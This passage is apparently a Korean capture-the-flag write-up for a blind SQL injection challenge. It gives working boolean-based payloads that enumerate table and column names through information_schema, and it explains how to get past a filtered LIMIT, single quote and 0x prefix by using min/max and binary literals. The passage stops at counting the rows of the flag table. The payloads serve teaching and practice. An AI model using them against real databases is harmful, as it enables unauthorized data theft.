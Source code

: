 ```
(0)or(length((select(min(if((select(table_schema)in(database())),table_name,null)))from(information_schema.tables)))in(13))
(0)or(length((select(max(if((select(table_schema)in(database())),table_name,null)))from(information_schema.tables)))in(4))
```  
`limit`이 필터링되어 있지만, `min`과 `max`로 테이블을 인덱싱할 수 있다.  
두 개의 테이블의 길이는 각각 13과 4이다.  


```
(0)or(ord(substr((select(min(if((select(table_schema)in(database())),table_name,null)))from(information_schema.tables)),1,1))in(102))
```
`ord(substr())`을 사용해서 테이블명을 한글자씩 알아낼 수 있다.  
테이블명은 각각 `flag_ab733768`, `list`이다.  


이제 테이블의 컬럼의 개수를 구해야 한다.

`single quote`이 모종의 이유로 작동이 안된다.  
이럴때는 세 가지 방식으로 우회가 가능하다.  
  * hex 값을 사용해서 우회
    `flag_ab733768`을 `0x666C61675F6162373333373638`로 표현할 수 있다.  
    하지만, `0x`과 필터링이 되어 있어 이번 문제에서 사용은 불가하다.  
  * ascii 값을 사용해서 우회
    `flag_ab733768`을 `char(102,108,97,103,95,97,98,55,51,51,55,54,56)`로 표현할 수 있다.  
    하지만, 자동화해서 표현하기가 조금 번거로운 단점이 있다.  
  * binary 값을 사용해서 우회  
    `flag_ab733768`을 `0b01100110011011000110000101100111010111110110000101100010001101110011001100110011001101110011011000111000`로 표현할 수 있다.  
    특히, `binascii`로 쉽게 변환할 수 있어서 코드로 자동화하기가 쉽다.  

```
(0)or(select(count(if((select(table_name)in(0b1100110011011000110000101100111010111110110000101100010001101110011001100110011001101110011011000111000)),column_name,null)))from(information_schema.columns))in(1)
```  
컬럼의 개수는 다행히 1개이다.  

```
(0)or(length((select(min(if((select(table_name)in(0b1100110011011000110000101100111010111110110000101100010001101110011001100110011001101110011011000111000)),column_name,null)))from(information_schema.columns)))in(13))
```
컬럼의 길이는 13이다.  

```
(0)or(ord(substr((select(min(if((select(table_name)in(0b1100110011011000110000101100111010111110110000101100010001101110011001100110011001101110011011000111000)),column_name,null)))from(information_schema.columns)),1,1))in(102))
```
컬럼명은 `flag_3a55b31d`이다.  


테이블명과 컬럼명을 알아냈으니, 이제 데이터를 조회할 일만 남았다.  

먼저, 데이터의 개수를 구하자.  
```
(0)or(select(count(flag_3a55b31d))from(flag_ab733768))in(2)
```  
데이터의 개수는 2개이다.

